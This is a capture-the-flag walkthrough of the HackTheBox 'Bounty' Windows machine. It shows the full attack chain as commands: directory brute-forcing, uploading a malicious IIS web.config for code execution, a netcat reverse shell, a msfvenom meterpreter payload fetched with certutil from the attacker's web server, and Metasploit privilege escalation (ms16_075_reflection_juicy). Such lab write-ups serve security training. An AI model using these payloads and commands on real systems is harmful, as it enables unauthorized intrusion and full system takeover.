 # Bounty

# Recon

## PortScan

`nmap -sCV -T4 10.10.10.93`

![Untitled](images/Untitled.png)

## Web

Simple static page

![Untitled](images/Untitled%201.png)

Lets add the IP to our `hosts` file

### Directory Discover

`gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://bounty.htb/`

![Untitled](images/Untitled%202.png)

By using another wordlist found this directory

![Untitled](images/Untitled%203.png)

`gobuster dir -w /usr/share/wordlists/seclists/Discovery/Web-Content/big.txt -u [http://bounty.htb/](http://bounty.htb/) -x asp,aspx,config`

After using another wordlist found this

![Untitled](images/Untitled%204.png)

Now that we can upload `web.config` maybe some `ASP` payload

I used this one [https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Upload Insecure Files/Configuration IIS web.config/web.config](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Upload%20Insecure%20Files/Configuration%20IIS%20web.config/web.config) save it to a file and upload, after uploading go to this URL `http://bounty.htb/uploadedfiles/web.config`

By running `whoami` we get the response so maybe we can do a reverse shell

![Untitled](images/Untitled%205.png)

### Getting a shell

Open a netcat listener

`nc -lvnp 1234`

I used this powershell reverse shell

![Untitled](images/Untitled%206.png)

Copy the code and paste it inside the input field

![Untitled](images/Untitled%207.png)

And we got a shell

![Untitled](images/Untitled%208.png)

Getting user flag

`cat user.txt`

![Untitled](images/Untitled%209.png)

### Getting a meterpreter session

Create a msfvenom payload

`msfvenom -p windows/meterpreter/reverse_tcp lhost={LOCAL-IP} lport=9999 -f exe > shell.exe`

![Untitled](images/Untitled%2010.png)

Open a python web server inside the directory of the shell

`python3 -m http.server 80`

Inside the windows machine download the `shell.exe` using `certutil -urlcache -f http://{LOCAL-IP}/shell.exe shell.exe`

![Untitled](images/Untitled%2011.png)

Now we need to setup a handler

Open metasploit using the command 

`msfconsole`

Use the handler module

`use multi/handler`

`set payload windows/meterpreter/reverse_tcp`

`set lhost {LOCAL-IP}`

`set lport 9999`

`run`

![Untitled](images/Untitled%2012.png)

Now open the `shell.exe` inside the windows

`./shell.exe`

![Untitled](images/Untitled%2013.png)

And we got a meterpreter session

![Untitled](images/Untitled%2014.png)

## Privilege Escalation

Go to windows shell using

`shell`

Get current privileges

`whoami /privs`

![Untitled](images/Untitled%2015.png)

We gonna use PrintSpoofer privilege escalation method so lets download the `.exe`

Go to this link [https://github.com/itm4n/PrintSpoofer/releases/tag/v1.0](https://github.com/itm4n/PrintSpoofer/releases/tag/v1.0) and download this file

![Untitled](images/Untitled%2016.png)

Put the shell on the background

![Untitled](images/Untitled%2017.png)

Now lets upload that file to the windows machine

`upload /home/zodiac/htb/bounty/PrintSpoofer64.exe`

![Untitled](images/Untitled%2018.png)

### Finding an exploit

`use multi/recon/local_exploit_suggester`

`set session 1`

`run`

![Untitled](images/Untitled%2019.png)

Im gonna use the reflection_juicy

`use exploit/windows/local/ms16_075_reflection_juicy`

`set lhost tun0`

`set session 1`

`exploit`

![Untitled](images/Untitled%2020.png)

And we can verify our user by doing

`getuid`

![Untitled](images/Untitled%2021.png)

Get the root flag

![Untitled](images/Untitled%2022.png)
